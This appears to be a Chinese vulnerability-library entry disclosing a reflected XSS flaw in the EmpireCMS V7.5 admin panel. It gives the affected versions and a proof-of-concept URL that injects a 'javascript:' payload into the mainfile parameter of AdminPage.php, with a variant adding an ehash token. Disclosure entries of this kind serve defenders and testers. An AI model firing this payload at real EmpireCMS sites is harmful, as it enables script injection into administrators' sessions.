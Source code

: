 ```yaml
---
title: 'EmpireCMS V7.5后台xss漏洞'
date: Wed, 09 Sep 2020 14:03:12 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

EmpireCMS <=7.5

### 漏洞POC

需要有后台权限

```
http://********/e/admin/openpage/AdminPage.php?mainfile=javascript:alert(/xss/)
```

若提示非法来源加入参数hash参数，例：ehash\_gxCQz=zERR2KY6NAMicC0c5OYv,如下 ![](EmpireCMS%20V7.5%E5%90%8E%E5%8F%B0xss%E6%BC%8F%E6%B4%9E/15996652611.png)

```
http://********/e/admin/openpage/AdminPage.php?mainfile=javascript:alert(/xss/)&ehash_gxCQz=zERR2KY6NAMicC50Yv
```